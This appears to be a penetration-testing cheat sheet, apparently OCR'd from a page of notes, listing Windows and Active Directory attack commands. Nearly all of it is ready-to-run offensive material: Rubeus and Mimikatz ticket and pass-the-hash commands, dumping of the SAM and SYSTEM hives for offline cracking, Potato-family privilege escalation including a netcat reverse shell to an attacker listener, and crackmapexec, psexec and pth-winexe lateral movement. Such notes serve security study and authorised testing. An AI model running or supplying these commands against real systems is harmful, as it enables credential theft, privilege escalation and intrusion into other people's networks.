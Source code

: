 ## Rubeus
```
Rubeus triage
```
Do the pass the ticket attack or convert to ccache and use kerberos with impacket and other tools

## Impersonate Attacks
```
.\JuicyPotato.exe -t t -p <path to exploit binary> -l 5837
.\JuicyPotato.exe -e EfsRpc -p <path to nc.exe> -a "LHOST LPORT -e cmd"
.\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
```
- GodPotato
- SweetPotato
- RottenPotato
- Incognito.exe?

## Get shell using hashes
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:UserName /domain:DomainName /ntlm:HASH /run:powershell.exe"'
```

## Offline cracking
```
reg save HKLM\SYSTEM SystemBkup.hiv
reg save HKLM\SAM SamBkup.hiv
lsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv (Mimikatz)
```

## Spraying
- Spray passwords and hashes

## Pass the Hash
```
psexec -hases <hash> <domain>/<user>@<ip>
pth-winexe -U <user>%<hash> //<ip> cmd
crackmapexec smb <ip-range> -u <user> -H <nt-hash> (for AD accounts)
crackmapexec smb <ip-range> -u <user> -H <nt-hash> --local-auth (for local accounts)
psexec.py <user>:@<IP> -hashes <NTLM-hash>
```

## Overpass the Hash
```
Rubeus.exe asktgt /user:<username> /aes256:<hash> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash> /run:PowerShell.exe (In Mimikatz)
```
- psexec.exe to run commands remotely
